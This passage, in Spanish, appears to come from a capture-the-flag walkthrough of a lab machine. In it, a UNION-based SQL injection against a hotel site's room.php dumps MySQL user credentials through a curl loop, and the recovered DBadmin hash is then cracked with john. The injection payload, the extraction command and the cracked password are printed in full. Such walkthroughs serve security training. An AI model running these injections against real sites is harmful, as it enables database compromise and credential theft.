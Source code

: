 Vemos dos columnas que ya nos llaman la atención, **User** y **Password**; así que ahora vamos a tratar de obtener la información de la tabla **user** y en específico, dichas columnas. Eso lo lograremos con la inyección `10.10.10.143/room.php?cod=0 union select 1,2,group_contact(User,0x3a,Password),4,5,6,7 from mysql.user` (**Nota**: Determinamos que la tabla **user** se encuentra en la base de datos **mysql** debido a que el sitio web no presenta una página relacionada al login, por lo tanto la base de datos **hotel** no podría contener alguna tabla en donde se presenten usuarios y contraseñas):

```bash
❯ for i in $(seq 0 10); do echo "[*] Data $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,group_concat(User,0x3a,Password),4,5,6,7%20from%20mysql.user%20limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] Data 0: DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
[*] Data 1: 
[*] Data 2: 
[*] Data 3: 
^C#        
```

Ya tenemos unas credenciales que podrían ser del panel de administración de phpmyadmin y debemos recordar que la contraseña se encuentra hasheada, por lo tanto vamos a utilizar la herramienta `john` para crackearla, así que nos creamos un archivo en donde pongamos el hash (DBadmin:\*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0) y procedemos a utilizar la herramienta:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
imissyou         (DBadmin)
1g 0:00:00:00 DONE (2021-12-26 21:50) 20.00g/s 19520p/s 19520c/s 19520C/s shadow1..ashlee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Como siempre, guardamos las credenciales que tengamos y procedemos a utilizarlas en el panel de login.

